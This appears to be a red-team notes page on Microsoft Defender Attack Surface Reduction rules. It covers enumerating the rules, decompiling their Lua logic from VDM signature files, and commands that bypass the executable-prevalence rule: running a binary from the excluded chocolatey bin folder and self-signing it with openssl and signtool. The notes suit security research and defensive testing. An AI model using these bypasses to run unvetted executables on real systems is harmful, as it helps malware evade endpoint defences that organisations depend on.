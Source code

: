 #### Enumerate ASR rules
- https://github.com/directorcia/Office365/blob/master/win10-asr-get.ps1
```
. ./win10-asr-get.ps1
```

### ASR Reversing
- Virus Definition Module (VDM) is a file format used by Microsoft Defender to store databases of antivirus signatures.
- Stored within `C:\ProgramData\Microsoft\Windows Defender\Definition Updates\<GUID>`
	- `mpasbase.vdm` and `mpavbase.vm` contain the threat signatures, rules etc
	- Within these files Microsoft Defender stores the ASR rules as precompiled LUA scripts.

#### Reversing
1. Decompress `.vdm` files with python script https://gist.github.com/HackingLZ/65f289b8b0b9c8c3a675aa26c06dfe09
2. Decompile the pre-compiled extracted LUA files with https://github.com/viruscamp/luadec
3. Search in the decompiled LUA files in indication of ASR rules such as rule name, GUID, intune name

```
python3 vdm_lua_extract.py --decompile mpasbase.vdm LUA_mpasbase
```

### Bypasses
#### Block executable files from running unless they meet a prevalence, age, or trusted list criterion
- This ASR rule is bypassable because all executables within `C:\programdata\chocolatey\bin\*.exe` are excluded (Fixed, its still there but doesn't work on latest W11)

```lua
if (mp.IsPathExcludedForHipsRule)(l_0_2, "01443614-cd74-433a-b99e-2ecdc07bfc25") then
      return mp.CLEAN
    end
..snip...
    if (string.find)(l_0_2, "^.:\\programdata\\chocolatey\\bin\\[^%.\\]+%.exe$") ~= nil then
      return mp.CLEAN
    end
```

```
mkdir "C:\ProgramData\chocolatey\bin"
copy /Y "<PATH TO EXE>" "C:\ProgramData\chocolatey\bin\"
C:\ProgramData\chocolatey\bin\<EXE>
```

#### Block executable files from running unless they meet a prevalence, age, or trusted list criterion
- I had success with signing the executable

```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -sha256 -days 365
openssl pkcs12 -inkey key.pem -in cert.pem -export -out sign.pfx
signtool sign /f <PFX FILE> /p <PFX PASSWORD> /t http://timestamp.digicert.com /fd sha256 binary.exe
```
